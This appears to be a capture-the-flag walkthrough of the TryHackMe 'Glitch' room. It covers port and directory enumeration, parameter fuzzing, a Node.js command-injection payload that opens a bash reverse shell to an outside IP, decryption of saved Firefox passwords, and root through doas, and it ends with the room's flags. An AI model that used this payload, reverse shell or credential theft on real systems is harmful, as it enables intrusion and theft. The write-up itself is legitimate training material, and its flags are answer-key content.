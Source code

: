 # IP Address
10.10.139.157

# Enumeration
## Nmap 
```console
❯ nmap -sC -sV 10.10.139.157 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-25 19:13 IST
Nmap scan report for Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-25 19:13 IST
Nmap scan report for 10.10.139.157 
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.97 seconds

```
## Gobuster
```console
❯ gobuster dir -u http://10.10.139.157/api -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php,js,html,xml,png,jpg | tee gobuster.log
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.139.157/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              png,jpg,php,js,html,xml
[+] Timeout:                 10s
===============================================================
2022/08/25 19:25:00 Starting gobuster in directory enumeration mode
===============================================================
/access               (Status: 200) [Size: 36]
/items                (Status: 200) [Size: 169]

```
## Website
**/**
```console
❯ curl  http://10.10.139.157/   
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>not allowed</title>

    <style>
      * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      body {
        height: 100vh;
        width: 100%;
        background: url('img/glitch.jpg') no-repeat center center / cover;
      }
    </style>
  </head>
  <body>
    <script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
  </body>
</html>

```
**/api/access/**
```console
❯ curl  http://10.10.139.157/api/access
{"token":"dGhpc19pc19ub3RfcmVhbA=="}                                                                                         
```
The *token* is in encoded in base64 and on decoding found token to be `this_is_not_real` 
**/api/items/** 
```console
❯ curl  http://10.10.139.157/api/items
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}%                   
```
On using `Burpsuite` on this path with POST. Found that url uses some parameters.
On using wfuzz on the url to search for hidden parameters found that url takes `cmd` as a parameter
```console
❯ wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hh=45   http://10.10.139.157/api/items\?FUZZ\=oops
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.139.157/api/items?FUZZ=oops
Total requests: 475254

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000002370:   500        10 L     64 W       1081 Ch     "cmd"                                                                                                                       
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 3246
Filtered Requests: 3245
Requests/sec.: 0
```
**Now with burpsuite uploaded payload to /api/items**
```console
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.17.39.205/1234+0>%261"') HTTP/1.1
```
# Reverse Shell
- Found user id in /home/user/user.txt
- Found a `.firefox` file in `/home/user/`
- Downloaded the file locally
- Decrypted the file [firefox_decrypt](https://github.com/unode/firefox_decrypt)
```console
❯ python3 firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
``` 
- Searched for SUID files 
```console
v0id@ubuntu:/home/user$ sudo -l
[sudo] password for v0id: 
Sorry, user v0id may not run sudo on ubuntu.
v0id@ubuntu:/home/user$ find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas ------> Interesting
```
- Search gtfobins for doas vulnerabilities and and found a command for a root shell
- Escalted previlege and read the root.tx file
```console
v0id@ubuntu:/home/user$ doas -s
Password: 
root@ubuntu:/home/user# cat /root/root.txt
THM{diamonds_break_our_aching_minds}
```
# Answers
**token** - `this_is_not_real`
**user.txt** - `THM{i_don't_know_why}`
**root.txt** - `THM{diamonds_break_our_aching_minds}`
